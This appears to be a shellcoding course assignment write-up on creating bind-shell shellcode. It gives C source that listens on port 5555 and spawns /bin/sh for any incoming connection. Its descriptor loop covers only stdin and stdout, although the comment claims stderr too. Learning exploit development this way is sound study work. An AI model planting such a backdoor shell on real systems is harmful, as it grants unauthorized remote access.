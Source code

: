 # Assignment 1

## What to do
- Create a Shell_Bind_TCP shellcode
    - Binds to a Port
    - Execs Shell on incoming connection
- Port number should be easily configurable

## How to do it
The path we can follow towards creating a shell_bind_tcp shellcode is to first create a shell_bind_tcp in C and transform C code into Assembly.

The following code was used as a basis:

```c
#include<stdio.h>
#include<sys/types.h>
#include<sys/socket.h>
#include<netinet/in.h>
#include<stdint.h>

int main()
{
	uint32_t server_sockid;		//server socket descriptor
	uint32_t client_sockid;		//client socket descriptor
	struct sockaddr_in srvaddr;
	uint32_t i;			        //counter

	//create socket
	server_sockid = socket(PF_INET, SOCK_STREAM, 0);

	//initialize sockaddr struct to bind socket using it
	srvaddr.sin_family = AF_INET;
	srvaddr.sin_port = htons(5555);
	srvaddr.sin_addr.s_addr = htonl(INADDR_ANY);

	//bind socket to ip/port in sockaddr struct
	bind(server_sockid, (struct sockaddr *)&srvaddr, sizeof(srvaddr));

	//listen for incoming connection
	listen(server_sockid, 0);

	//accept incoming connection, don't store data, just use the sockfd created
	client_sockid = accept(server_sockid, NULL, NULL);

	//duplicate file descriptors for STDIN, STDOUT, STDERROR
	for (i=0; i<2; i++)
		dup2(client_sockid, i);

	//execute /bin/sh
	execve("/bin/sh", NULL, NULL);
	close(server_sockid);

	return 0;

}
```
